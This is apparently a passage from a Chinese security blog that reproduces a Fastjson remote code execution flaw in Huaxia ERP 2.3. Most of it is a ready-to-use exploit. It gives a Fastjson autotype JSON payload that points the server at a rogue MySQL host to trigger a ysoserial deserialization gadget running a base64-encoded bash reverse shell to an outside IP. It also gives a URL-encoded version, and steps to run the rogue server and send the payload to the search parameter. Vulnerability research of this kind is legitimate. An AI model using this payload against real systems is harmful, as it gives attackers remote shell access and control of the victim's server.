 [奇安信攻防社区 - 某开源 ERP 最新版 SQL 与 RCE 的审计过程](https://forum.butian.net/share/134)  
[华夏 ERP CMS 代码审计 - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/370821.html)  
[蓝帽杯 2022 决赛 - 赌怪 writeup - KingBridge - 博客园](https://www.cnblogs.com/kingbridge/articles/16720318.html)

### Fastjson RCE

此版本 `华夏ERP 2.3`是存在 `fastjson 1.2.55 RCE`漏洞的，进行复现  
构造数据包 进行 `JDBC`攻击

```bash
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }

%7b%20%22%6e%61%6d%65%22%3a%20%7b%20%22%40%74%79%70%65%22%3a%20%22%6a%61%76%61%2e%6c%61%6e%67%2e%41%75%74%6f%43%6c%6f%73%65%61%62%6c%65%22%2c%20%22%40%74%79%70%65%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%4a%44%42%43%34%43%6f%6e%6e%65%63%74%69%6f%6e%22%2c%20%22%68%6f%73%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%22%31%31%31%2e%32%32%39%2e%31%35%38%2e%34%30%22%2c%20%22%70%6f%72%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%33%33%30%39%2c%20%22%69%6e%66%6f%22%3a%20%7b%20%22%75%73%65%72%22%3a%20%22%79%73%6f%5f%43%6f%6d%6d%6f%6e%73%43%6f%6c%6c%65%63%74%69%6f%6e%73%36%5f%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%7a%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%22%2c%20%22%70%61%73%73%77%6f%72%64%22%3a%20%22%70%61%73%73%22%2c%20%22%73%74%61%74%65%6d%65%6e%74%49%6e%74%65%72%63%65%70%74%6f%72%73%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%69%6e%74%65%72%63%65%70%74%6f%72%73%2e%53%65%72%76%65%72%53%74%61%74%75%73%44%69%66%66%49%6e%74%65%72%63%65%70%74%6f%72%22%2c%20%22%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65%22%3a%20%22%74%72%75%65%22%2c%20%22%4e%55%4d%5f%48%4f%53%54%53%22%3a%20%22%31%22%20%7d%20%7d
```

运行 `server.py`开启，注意这里`config.json`配置 (ysoserial-all.jar 和 server.py 放一起)，bash 反弹 shell

[![](assets/1709193375-e3b45c188aabe9f1f990fb41906bdcf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204956-b5a24614-d56e-1.png)

构造`/user/list?search=编码后的内容` 发包成功反弹 shell
